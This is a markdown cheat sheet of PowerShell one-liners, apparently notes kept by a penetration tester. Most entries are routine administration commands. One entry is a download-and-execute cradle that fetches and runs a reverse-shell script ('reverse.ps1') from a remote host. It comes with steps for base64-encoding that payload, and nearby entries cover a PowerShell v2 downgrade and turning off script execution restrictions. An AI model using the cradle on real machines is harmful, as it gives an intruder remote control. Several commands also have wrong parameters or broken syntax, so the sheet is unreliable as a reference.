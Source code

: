 ###### powershell: find hidden files recursice  
`Get-ChildItem -Hidden -Recursive \path\`
  
###### powershell: compress (zip) a file  
`Compress-Archive -U -LiteralPath \source\path\ -DestinationPath \path\newfile`
  
###### powershell: unzip a file  
`Expand-Archive -LiteralPath \source\path\ -DestinationPath \path\target`  
  
###### powershell: extract string of command result  
`findstr "something"  `
  
###### powershell: show all bssids of saved wifi networks  
`netsh wlan show profiles * | findstr "SSID-Name"  `
  
###### powershell: allow execution of all ps scripts  
`Set-ExecutionPolicy Unrestricted`
  
###### powershell: list execution policies  
`Get-ExecutionPolicy -List`
  
###### powershell: display file contents  
`Get-Content <file>  `
  
###### powershell: CMDlet help  
`Get-Help <CMDlet> -examples  `
  
###### powershell: display ps version  
`$PSVersionTable`
  
###### powershell: run PS v2  
`powershell.exe -version 2.0  `
  
###### powershell: list running services  
`Get-Service | where_object {$_.status -eq "Running"}  `
  
###### powershell: return services  
`get-service | measure-object  `
  
###### powershell: return list of PSDrives  
`get-psdrive  `
  
###### powershell: return only names  
`get-process | select -expandproperty name  `
  
###### powershell: export OS information to CSV  
`Get-WmiObject -class win32_operatingsystem | select -property * | export-csv c:\os.txt  `
  
###### powershell: download file over HTTP  
`(new-object system.net.webclient).downloadFile("url","dest")  `
  
###### powershell: list hostname and IP for all domain computers  
`Get-WmiObject -ComputerName <DC> -Namespace root\microsoftDNS -Class MicrosoftDNS_ResourceRecord  Filter "domainname=' <DOMAIN>'" | select textrepresentation  `
  
###### powershell donload file  
`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/reverse.ps1')  `
`cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 powershell -enc "BASE64"`

###### Invoke Script
`.\Script.ps1`
`Invoke-Function`